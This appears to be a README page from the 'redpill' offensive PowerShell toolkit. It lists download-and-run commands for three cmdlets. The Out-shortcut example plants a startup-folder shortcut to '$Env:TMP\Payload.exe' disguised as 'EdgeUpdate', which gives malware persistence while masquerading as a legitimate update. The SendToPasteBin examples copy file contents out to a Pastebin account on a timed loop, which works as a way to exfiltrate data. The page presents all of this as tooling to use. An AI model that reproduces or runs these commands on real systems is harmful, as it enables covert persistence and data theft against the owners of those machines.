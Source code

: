 ## Open-Directory.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Open-Directory|Use GUI to open the sellected directory|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Open-Directory.png)|

**Download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Open-Directory.ps1" -OutFile "Open-Directory.ps1"
```

**execute:**
```powershell
.\Open-Directory.ps1
```

<br />

## Out-shortcut.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Out-shortcut|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-Shortcut.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|SendToPasteBin|Get filepath contents and paste it to pastebin.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "1" -timeout "2" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "10" -timeout "120" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   

